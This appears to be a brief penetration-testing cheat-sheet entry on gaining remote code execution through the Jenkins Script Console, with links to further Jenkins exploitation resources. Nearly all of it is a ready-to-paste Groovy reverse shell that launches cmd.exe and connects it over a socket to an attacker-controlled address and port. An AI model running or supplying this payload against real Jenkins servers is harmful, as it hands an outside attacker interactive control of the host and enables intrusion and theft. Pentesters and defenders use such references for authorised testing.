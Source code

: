 # 🕴 Jenkins

## RCE from Script Console

> From [frohoff/**revsh.groovy**](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)****

```bash
String host="10.10.14.5";
int port=9005;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

## Resources

{% embed url="https://github.com/gquere/pwn_jenkins" %}

{% embed url="https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security" %}
